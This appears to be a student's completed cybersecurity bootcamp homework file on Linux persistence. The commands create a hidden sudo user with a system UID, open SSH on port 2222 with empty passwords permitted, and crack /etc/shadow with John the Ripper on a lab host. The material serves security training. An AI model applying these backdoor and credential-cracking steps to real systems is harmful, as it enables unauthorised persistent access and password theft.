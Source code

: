 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    ```
        useradd --no-create-home sysd
    ```

2. Give your secret user a password: 
    ```
        passwd sysd
    ```

3. Give your secret user a system UID < 1000:
    ```
        usermod -u 23 sysd
    ```

4. Give your secret user the same GID:
    ```
        groupmod -g 23 sysd
    ```

5. Give your secret user full `sudo` access without the need for a password:
    ```
        nano visudo
    ```
    ```
        sysd ALL=(ALL) NOPASSWD:ALL
    ```

6. Test that `sudo` access works without your password:

    ```bash
        sudo -v
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
        Port 22
        Port 2222
        PermitEmptyPasswords yes
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    ```
        systemctl restart sshd.service
    ```

2. Exit the `root` account:
    ```
        exit
        exit
    ```

3. SSH to the target machine using your `sysd` account and port `2222`:
    ```
        ssh sysd@192.168.6.105 -p 2222
    ```

4. Use `sudo` to switch to the root user:
    ```
        sudo -i
    ```

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    ```
        ssh sysd@192.168.6.105 -p 2222
    ```

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
 
    ```
        sudo -i
        john /etc/shadow
        john --show /etc/shadow
    ```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

